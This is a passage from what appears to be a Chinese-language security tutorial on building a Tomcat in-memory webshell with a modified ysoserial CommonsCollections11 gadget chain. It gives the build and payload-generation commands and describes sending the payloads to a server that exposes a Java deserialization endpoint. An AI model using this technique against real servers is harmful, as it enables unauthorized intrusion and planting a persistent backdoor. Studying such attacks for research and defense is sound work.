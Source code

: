 
    @Override
    public void destroy() {` 

    `}
    }` 

和第一个步骤创建的TomcatEchoInject不一样，这里我们不但基础了AbstractTranslet，还实现了Filter创建一个我们自定义的内存Webshell

最后，我们也按照第一个步骤那样，创建一个ysoserial的`CommonsCollections11`类的拷贝，名叫`CommonsCollections11ForTomcatShellInject`，并把其`Gadgets.createTemplatesImpl(command[0])`的调用改成`Gadgets.createTemplatesImpl(null, TomcatShellInject.class)`，这样，我们的Webshell payload就完成了。

通过执行maven打包

```
mvn clean -Dmaven.test.skip=true compile assembly:assembly 
```

然后执行生成的jar

```
java -jar ysoserial-0.0.6-SNAPSHOT-all.jar CommonsCollections11ForTomcatShellInject > ~/tmp/TomcatEchoInject.ysoserial 
```

就生成了CommonsCollections11ForTomcatShellInject的payload了

## 0x03 测试

上一节中，我们生成了两个payload，接下来，我们启动一个具有`commons-collections:commons-collections:3.2.1`依赖的服务端，并且存在反序列化的接口。

然后我们把步骤一和步骤二生成的payload依次打过去

![image](img/e98d62961f0bf03765afbdeb938798c4.png)

![image](img/258bc1c14a358d47c74b6f340685c540.png)
